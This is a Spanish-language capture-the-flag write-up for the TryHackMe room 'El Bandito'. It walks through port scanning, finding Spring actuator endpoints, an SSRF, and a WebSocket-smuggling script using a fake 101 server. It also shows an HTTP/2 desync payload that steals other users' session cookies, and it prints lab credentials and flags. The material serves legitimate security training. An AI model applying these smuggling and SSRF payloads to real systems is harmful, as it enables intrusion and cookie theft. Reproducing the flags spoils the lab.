El Bandito¶
Enumeration¶
Nmap¶
Scan de puertos vulnerables
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.183.199 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-29 01:21 -04
Initiating SYN Stealth Scan at 01:21
Scanning 10.10.183.199 [65535 ports]
Discovered open port 22/tcp on 10.10.183.199
Discovered open port 80/tcp on 10.10.183.199
Discovered open port 8080/tcp on 10.10.183.199
Discovered open port 631/tcp on 10.10.183.199
Completed SYN Stealth Scan at 01:21, 15.78s elapsed (65535 total ports)
Nmap scan report for 10.10.183.199
Host is up, received user-set (0.23s latency).
Scanned at 2025-06-29 01:21:39 -04 for 16s
Not shown: 65531 closed tcp ports (reset)
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 62
631/tcp open ipp syn-ack ttl 63
8080/tcp open http-proxy syn-ack ttl 62
Buscamos servicios
nmap -sC -sV -p22,80,631,8080 10.10.183.199 -oN targeted
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 e2:43:a2:44:81:17:b0:bd:4c:c4:4e:09:a5:2b:33:60 (RSA)
| 256 da:7c:d9:56:da:36:f5:ad:3a:eb:95:ae:aa:14:87:b1 (ECDSA)
|_ 256 52:fb:bf:03:d7:ce:dd:11:86:65:1b:f6:7b:77:fa:e3 (ED25519)
80/tcp open ssl/http El Bandito Server
|_http-server-header: El Bandito Server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| ssl-cert: Subject: commonName=localhost
| Subject Alternative Name: DNS:localhost
| Not valid before: 2021-04-10T06:51:56
|_Not valid after: 2031-04-08T06:51:56
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.1 404 NOT FOUND
| Date: Sun, 29 Jun 2025 05:23:50 GMT
| Content-Type: text/html; charset=utf-8
| Content-Length: 207
| Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
| X-Content-Type-Options: nosniff
| X-Frame-Options: SAMEORIGIN
| X-XSS-Protection: 1; mode=block
| Feature-Policy: microphone 'none'; geolocation 'none';
| Age: 0
| Server: El Bandito Server
| Connection: close
| <!doctype html>
| <html lang=en>
| <title>404 Not Found</title>
| <h1>Not Found</h1>
| <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
| GetRequest:
| HTTP/1.1 200 OK
| Date: Sun, 29 Jun 2025 05:22:51 GMT
| Content-Type: text/html; charset=utf-8
| Content-Length: 58
| Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
| X-Content-Type-Options: nosniff
| X-Frame-Options: SAMEORIGIN
| X-XSS-Protection: 1; mode=block
| Feature-Policy: microphone 'none'; geolocation 'none';
| Age: 0
| Server: El Bandito Server
| Accept-Ranges: bytes
| Connection: close
| nothing to see <script src='/static/messages.js'></script>
| HTTPOptions:
| HTTP/1.1 200 OK
| Date: Sun, 29 Jun 2025 05:22:52 GMT
| Content-Type: text/html; charset=utf-8
| Content-Length: 0
| Allow: GET, OPTIONS, HEAD, POST
| Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
| X-Content-Type-Options: nosniff
| X-Frame-Options: SAMEORIGIN
| X-XSS-Protection: 1; mode=block
| Feature-Policy: microphone 'none'; geolocation 'none';
| Age: 0
| Server: El Bandito Server
| Accept-Ranges: bytes
| Connection: close
| RTSPRequest:
|_ HTTP/1.1 400 Bad Request
|_ssl-date: TLS randomness does not represent time
631/tcp open ipp CUPS 2.4
|_http-title: Forbidden - CUPS v2.4.7
|_http-server-header: CUPS/2.4 IPP/2.1
8080/tcp open http nginx
|_http-favicon: Spring Java Framework
|_http-title: Site doesn't have a title (application/json;charset=UTF-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.95%T=SSL%I=7%D=6/29%Time=6860CDAC%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,1E5,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2029\x20Jun\
SF:x202025\x2005:22:51\x20GMT\r\nContent-Type:\x20text/html;\x20charset=ut
SF:f-8\r\nContent-Length:\x2058\r\nContent-Security-Policy:\x20default-src
SF:\x20'self';\x20script-src\x20'self';\x20object-src\x20'none';\r\nX-Cont
SF:ent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS
SF:-Protection:\x201;\x20mode=block\r\nFeature-Policy:\x20microphone\x20'n
SF:one';\x20geolocation\x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandit
SF:o\x20Server\r\nAccept-Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\nn
SF:othing\x20to\x20see\x20<script\x20src='/static/messages\.js'></script>"
SF:)%r(HTTPOptions,1CB,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2029\x20J
SF:un\x202025\x2005:22:52\x20GMT\r\nContent-Type:\x20text/html;\x20charset
SF:=utf-8\r\nContent-Length:\x200\r\nAllow:\x20GET,\x20OPTIONS,\x20HEAD,\x
SF:20POST\r\nContent-Security-Policy:\x20default-src\x20'self';\x20script-
SF:src\x20'self';\x20object-src\x20'none';\r\nX-Content-Type-Options:\x20n
SF:osniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS-Protection:\x201;\x20
SF:mode=block\r\nFeature-Policy:\x20microphone\x20'none';\x20geolocation\x
SF:20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandito\x20Server\r\nAccept-
SF:Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(FourOhFourRequest,26C,"HTT
SF:P/1\.1\x20404\x20NOT\x20FOUND\r\nDate:\x20Sun,\x2029\x20Jun\x202025\x20
SF:05:23:50\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCont
SF:ent-Length:\x20207\r\nContent-Security-Policy:\x20default-src\x20'self'
SF:;\x20script-src\x20'self';\x20object-src\x20'none';\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS-Protectio
SF:n:\x201;\x20mode=block\r\nFeature-Policy:\x20microphone\x20'none';\x20g
SF:eolocation\x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandito\x20Serve
SF:r\r\nConnection:\x20close\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\
SF:n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\n<p>The\x20r
SF:equested\x20URL\x20was\x20not\x20found\x20on\x20the\x20server\.\x20If\x
SF:20you\x20entered\x20the\x20URL\x20manually\x20please\x20check\x20your\x
SF:20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
HTTP¶



Recurso: https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/spring-actuators.html#key-points

Consultamos la ruta /health

Consultamos la ruta /mappings

ahora es posible obtener otras posibles rutas
/admin-creds
/admin-flag
/token
/isOnline
/error
/heapdump
/autoconfig
/trace
/health
/dump
/configprops
/env/{name:.*
Exploit¶
Probamos con la ruta /isOnline
GET /isOnline?url=http://10.9.244.36:5555/test.txt HTTP/1.1

El servidor HTTP Python recibió la solicitud, lo que confirmó que el punto final era vulnerable a SSRF (Server-Side Request Forgery).

Usando este SSRF, se crea un servidor malicioso que siempre respondía con 101, engañando al frontend para que aceptara el túnel WebSocket.
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler
if len(sys.argv)-1 != 1:
print("""
Usage: {}
""".format(sys.argv[0]))
sys.exit()
class Redirect(BaseHTTPRequestHandler):
def do_GET(self):
self.protocol_version = "HTTP/1.1"
self.send_response(101)
self.end_headers()
HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()

En la solicitud /admin-credses obligatorio el encabezado Host, y se debe dejar dos espacios para que se interprete como el cuerpo.

| user | pass |
|---|---|
| hAckLIEN | YouCanCatchUsInYourDreams404 |
Esta solicitud /admin-flag devolvió con éxito las credenciales de administrador.

THM{:::MY_DECLINATION:+62°_14\'_31.4'':::}


Al analizar el frontend JavaScript (messages.js), se identifican dos funciones:
- send_message() → Envía mensajes mediante POST.
- getMessages() → Recupera todos los mensajes almacenados.

GET /getMessages HTTP/2
Host: elbandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aGDZBA.mxbv5aaUUAY9qia2Dc27uRE35FY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://elbandito.thm:80/access
Dnt: 1
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
La aplicación utilizaba HTTP/2, lo que significa que el método anterior de contrabando de WebSocket no funcionaría. Sin embargo, dado que muchos sistemas cambian a HTTP/1.1 en el backend, esto abrió la posibilidad de un ataque de HTTP/2 Desync attack (contrabando H2 → H1).
Sabiendo que el servidor es vulnerable, ahora hay que convertir esta vulnerabilidad. Para lograr esto, interceptar completamente la solicitud del usuario y enviarla como si fuera un mensaje de la función send_message() para poder verlo reflejado en la función getMessages(), robando así las cookies del usuario.
Enviamos con el Repeater la carga útil
POST / HTTP/2
Host: elbandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aGDZBA.mxbv5aaUUAY9qia2Dc27uRE35FY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Length: 0
POST /send_message HTTP/1.1
Host: elbandito.thm:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.aGDZBA.mxbv5aaUUAY9qia2Dc27uRE35FY
Content-Length: 900
Content-Type: application/x-www-form-urlencoded
data=


flag=THM{\u00a1!\u00a1RIGHT_ASCENSION_12h_36m_25.46s!\u00a1!}\r\nX-Forwa"
